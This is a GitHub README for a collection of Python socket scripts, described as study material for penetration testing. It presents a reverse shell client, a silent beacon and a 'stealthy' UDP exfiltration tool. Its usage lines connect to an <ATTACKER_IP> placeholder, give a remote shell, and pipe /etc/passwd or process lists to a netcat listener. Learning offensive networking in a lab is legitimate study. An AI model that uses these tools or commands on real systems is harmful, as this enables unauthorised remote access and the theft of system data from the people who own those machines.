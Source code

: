 # Sockets in Python

This repository contains a collection of Python scripts that utilize the `socket` library for various networking tasks. These scripts were developed as a practical exercise while studying network programming and security concepts, inspired by courses from Solyd. The collection includes enhanced versions of standard examples, modified scripts for specific use cases, and original creations, all designed for educational and penetration testing study purposes.

## Scripts Overview

Here is a breakdown of each script, its purpose, and how to use it.

### 1. `server_tcp.py`

A robust and persistent TCP server designed to listen for and handle multiple client connections sequentially. It's ideal for use as a listener in penetration testing scenarios, logging all received data to a file.

**Features:**
* **Persistent Listener**: Accepts multiple clients without restarting.
* **Multi-Message Handling**: Manages continuous data streams from a single client.
* **Data Logging**: Saves all data received from clients to `server_log.txt`.
* **Graceful Shutdown**: Can be stopped cleanly with `Ctrl+C`.

**Usage:**
Run the server on your machine, and it will listen on `0.0.0.0` at port `4433`.
```bash
python3 server_tcp.py
````

-----

### 2\. `client_tcp.py`

A classic and highly practical TCP reverse shell. This script connects back to a listening server, and redirects the machine's standard input, output, and error streams to the socket, providing the attacker with a remote shell.

**Features:**

  * **Remote Shell**: Provides a remote command-line interface to the target machine.
  * **Cross-Platform**: Automatically selects `/bin/sh` for Linux or `cmd.exe` for Windows.
  * **Stable Connection**: Uses TCP for reliable, stream-based communication.

**Usage:**

1.  On the attacker's machine, start a listener (e.g., netcat or `server_tcp.py`):
    ```bash
    nc -lvnp 4444
    ```
2.  On the target machine, run the script with the attacker's IP and port:
    ```bash
    python3 client_tcp.py <ATTACKER_IP> 4444
    ```

-----

### 3\. `fast_client_tcp.py`

A minimal, "fire-and-forget" TCP client designed for quick connection tests. Its main purpose is to send a single "beacon" to a listener to confirm that a connection from a target machine is possible.

**Features:**

  * **Silent Failure**: If a connection cannot be established, the script exits silently without raising errors on the target machine.
  * **Minimalist**: Hardcoded IP and port for rapid execution without command-line arguments.
  * **Single Beacon**: Connects, sends a single message, and immediately closes the connection.

**Usage:**

1.  Edit the `HOST` and `PORT` variables inside the script.
2.  Start a listener on the attacker's machine.
3.  Run the script on the target machine:
    ```bash
    python3 fast_client_tcp.py
    ```

-----

### 4\. `client_udp.py`

A lean, single-packet UDP client. This script is designed to send one UDP datagram to a target and then exit. It's perfect for sending quick triggers, simple commands, or testing for UDP listeners without the overhead of a TCP connection.

**Features:**

  * **Command-Line Driven**: Target IP, port, and message are all passed as command-line arguments for maximum flexibility.
  * **Fire-and-Forget**: Sends one packet and exits immediately.
  * **Lightweight**: Uses UDP for a fast, connectionless transmission.

**Usage:**

```bash
python3 client_udp.py <TARGET_IP> <PORT> "<YOUR_MESSAGE>"
```

-----

### 5\. `pipe_udp.py`

An efficient data exfiltration tool that reads input from `stdin` and sends it line-by-line over UDP. This is ideal for quickly and covertly sending the output of other commands or the content of files to a remote listener.

**Features:**

  * **Stealthy Exfiltration**: Sends data directly over the network without writing to a temporary file.
  * **Flexible**: Can be piped with any command that produces text output.
  * **Connectionless**: Uses UDP for fast data transfer.

**Usage:**
On the attacker's machine, start a UDP listener to capture the output: `nc -ulvnp <PORT>`

On the target machine, pipe a command's output to the script:

```bash
# Example: Exfiltrate /etc/passwd content
cat /etc/passwd | python3 pipe_udp.py <ATTACKER_IP> <PORT>

# Example: Exfiltrate running processes on Windows
tasklist | python3 pipe_udp.py <ATTACKER_IP> <PORT>
```

## License

This project is licensed under the MIT License. See the `LICENSE` file for details.

```
```
